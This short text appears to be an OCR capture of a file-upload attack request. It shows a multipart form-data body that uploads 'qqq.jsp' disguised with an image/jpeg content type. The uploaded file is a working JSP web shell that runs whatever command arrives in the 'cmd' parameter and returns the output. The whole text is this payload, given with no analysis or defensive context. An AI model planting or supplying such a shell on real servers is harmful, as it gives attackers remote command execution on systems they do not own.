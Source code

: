 Content-Disposition: form-data; name="file"; filename="qqq.jsp"

Content-Type: image/jpeg



<%

java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();

int a = -1; byte[] b = new byte[2048]; 

while((a=in.read(b))!=-1) out.println(new String(b,0,a)); 

%>

